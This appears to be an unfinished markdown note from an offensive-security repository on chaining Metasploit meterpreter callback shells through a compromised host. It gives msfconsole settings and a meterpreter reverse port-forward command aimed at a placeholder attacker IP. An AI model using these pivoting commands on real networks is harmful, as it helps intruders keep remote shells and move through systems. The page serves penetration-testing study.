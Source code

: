 # P2P Callback Shells

TODO: Fill this info and demonstrate how it works from the reference link below

Make the meterpreter connections act as p2p (peer-to-peer) without the need of SMB pipe meterpreter payloads even if it's not windows at all. ReverseListenerComm will tunnel our meterpreter sessions

```
msf > set ReverseListenerComm <session_id>

msf > set LHOST <compromised_target_IP>

msf > run
```

`meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>`

---
## References

- [Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)